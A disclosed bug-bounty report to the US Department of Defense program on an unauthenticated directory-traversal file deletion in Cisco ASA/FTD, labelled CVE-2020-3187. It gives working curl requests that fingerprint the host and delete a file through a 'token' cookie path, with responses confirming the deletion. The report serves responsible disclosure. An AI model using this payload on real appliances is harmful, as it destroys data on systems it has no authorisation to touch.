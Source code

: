 # Unauthenticated Arbitrary File Deletion ("CVE-2020-3187") in ████████

## Report Details
- **Report ID**: 978335
- **URL**: https://hackerone.com/reports/978335
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-09-10T11:22:21.080Z
- **Disclosed**: 2020-09-29T20:29:44.063Z

## Reporter
- **Username**: dwisiswant0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**

A vulnerability in the interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and obtain read and delete access to sensitive files.

Vulnerable host:

- `https://██████/`

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the system.

## Step-by-step Reproduction Instructions

1) Identifying vulnerable host by send request to `/+CSCOE+/session_password.html`.

```bash
> curl -skiL "https://██████/+CSCOE+/session_password.html"
```

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: ███████
User-Agent: curl/7.47.0
Accept: */*

```

If the target is vulnerable, the response header will display `webvpn` header, like:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 0
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Thu, 10 Sep 2020 04:14:27 GMT
X-Frame-Options: SAMEORIGIN
webvpn: 

```

2) Perform exploits to delete files by adding `token` in cookie header request.

For example, I want to delete this (https://████/+CSCOU+/csco_logo.gif) file.

```bash
> curl -Ik https://██████████/+CSCOU+/csco_logo.gif
< HTTP/1.1 200 OK
< Content-Type: image/gif
< Content-Length: 2678
< Cache-Control: max-age=6000
< Connection: Keep-Alive
< Date: Thu, 10 Sep 2020 04:19:54 GMT
< X-Frame-Options: SAMEORIGIN
```

Request:

```bash
> curl -skiL "https://███████/+CSCOE+/session_password.html" \
  -H "Cookie: token=../+CSCOU+/csco_logo.gif" 
```

```
GET /+CSCOE+/session_password.html HTTP/1.1
Host: ███████
Cookie: token=../+CSCOU+/csco_logo.gif
User-Agent: curl/7.47.0
Accept: */*

```

The following response is shown:

```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 0
Cache-Control: no-cache
Pragma: no-cache
Connection: Keep-Alive
Date: Thu, 10 Sep 2020 04:21:02 GMT
X-Frame-Options: SAMEORIGIN
webvpn: 

```

File deleted successfully:

```bash
> curl -Ik https://██████████/+CSCOU+/csco_logo.gif
< HTTP/1.1 404 Not Found
< Cache-Control: no-cache
< Pragma: no-cache
< Connection: Close
< Date: Thu, 10 Sep 2020 04:21:20 GMT
< X-Frame-Options: SAMEORIGIN
```

## Suggested Mitigation/Remediation Actions

- https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-path-JE3azWw43

## Impact

An exploit could allow the attacker to view or delete arbitrary files on the system.

## Attachments
No attachments
